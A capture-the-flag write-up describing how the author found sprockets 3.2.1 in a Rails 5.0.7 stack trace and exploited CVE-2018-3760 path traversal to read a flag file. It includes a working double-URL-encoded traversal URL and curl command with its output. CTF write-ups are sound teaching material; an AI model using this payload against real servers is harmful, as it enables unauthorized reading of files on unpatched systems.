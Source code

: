 # Country(200):  United Kingdom
----------
Description:  Hack this site and get the flag!

/tmp/flag.lol
http://52.9.13.75:3000
----------
Hint:  no
----------
Attachments:  []

~!|----------|!~

so logging into the site you can see that a fresh rails installation is present.  Which means the default route handler prints out debug information, and the main page shows :

```
Rails version: 5.0.7
Ruby version: 2.5.1 (x86_64-linux)
```

thats cool, however 5.0.7 is recent and has no cve's available yet.  The vulnerability has to be in the gem dependencies

so by trying a bunch of stuff, lets look at the failures for a random page request in stack and see if we can find some vulnerable dependencies that get called through the router.

```
actionpack (5.0.7) lib/action_dispatch/middleware/debug_exceptions.rb:53:in `call'
web-console (3.7.0) lib/web_console/middleware.rb:135:in `call_app'
web-console (3.7.0) lib/web_console/middleware.rb:22:in `block in call'
web-console (3.7.0) lib/web_console/middleware.rb:20:in `catch'
web-console (3.7.0) lib/web_console/middleware.rb:20:in `call'
actionpack (5.0.7) lib/action_dispatch/middleware/show_exceptions.rb:31:in `call'
railties (5.0.7) lib/rails/rack/logger.rb:36:in `call_app'
railties (5.0.7) lib/rails/rack/logger.rb:24:in `block in call'
activesupport (5.0.7) lib/active_support/tagged_logging.rb:69:in `block in tagged'
activesupport (5.0.7) lib/active_support/tagged_logging.rb:26:in `tagged'
activesupport (5.0.7) lib/active_support/tagged_logging.rb:69:in `tagged'
railties (5.0.7) lib/rails/rack/logger.rb:24:in `call'
sprockets-rails (3.2.1) lib/sprockets/rails/quiet_assets.rb:13:in `call'
actionpack (5.0.7) lib/action_dispatch/middleware/request_id.rb:24:in `call'
rack (2.0.5) lib/rack/method_override.rb:22:in `call'
rack (2.0.5) lib/rack/runtime.rb:22:in `call'
activesupport (5.0.7) lib/active_support/cache/strategy/local_cache_middleware.rb:28:in `call'
actionpack (5.0.7) lib/action_dispatch/middleware/executor.rb:12:in `call'
actionpack (5.0.7) lib/action_dispatch/middleware/static.rb:136:in `call'
rack (2.0.5) lib/rack/sendfile.rb:111:in `call'
railties (5.0.7) lib/rails/engine.rb:522:in `call'
puma (3.12.0) lib/puma/configuration.rb:225:in `call'
puma (3.12.0) lib/puma/server.rb:658:in `handle_request'
puma (3.12.0) lib/puma/server.rb:472:in `process_client'
puma (3.12.0) lib/puma/server.rb:332:in `block in run'
puma (3.12.0) lib/puma/thread_pool.rb:133:in `block in spawn_thread'

```

the interesting one turns out to be `sprockets` that version has a recent vulnerability out for it for path traversal.  Boom lets exploit it

CVE-2018-3760
https://blog.heroku.com/rails-asset-pipeline-vulnerability
https://github.com/rails/sprockets/commit/c09131cf5b2c479263939c8582e22b98ed616c5f

http://52.9.13.75:3000/assets/file:%2f%2f//usr/src/blog/app/assets/images/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/tmp/flag.lol

Just getting the absolute path directly triggers a different check.  

Tricking it into thinking that the path is actually inside of the current directory triggers another check.

Url encoding the relative part triggers a different check still.

Url encoding the relative part again is the ticket, and we are in!


thats the ticket 

```
➜  ctf git:(master) ✗ curl http://52.9.13.75:3000/assets/file:%2f%2f//usr/src/blog/app/assets/images/%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e/tmp/flag.lol
CK{3ac3d4fd3a4eb943de47b32793bb954d50a35c83}
```
